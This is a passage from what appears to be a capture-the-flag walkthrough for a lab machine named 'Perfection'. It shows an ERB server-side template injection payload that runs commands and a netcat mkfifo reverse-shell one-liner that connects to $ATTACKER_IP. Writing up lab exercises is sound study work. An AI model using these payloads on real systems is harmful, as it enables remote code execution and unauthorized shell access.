 Trying the code execution payloads : 
``<%= `ls /` %>``

![](../assets/img/Perfection/rce1.png)

Yes, we can execute commands.

Get a reverse shell with the payload of your choice. We'll use :
``rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $ATTACKER_IP $PORT >/tmp/f``

Setup a listener and wait : 

![](../assets/img/Perfection/reverse.png)

Upgrade your shell, go to the home directory, and get the first flag !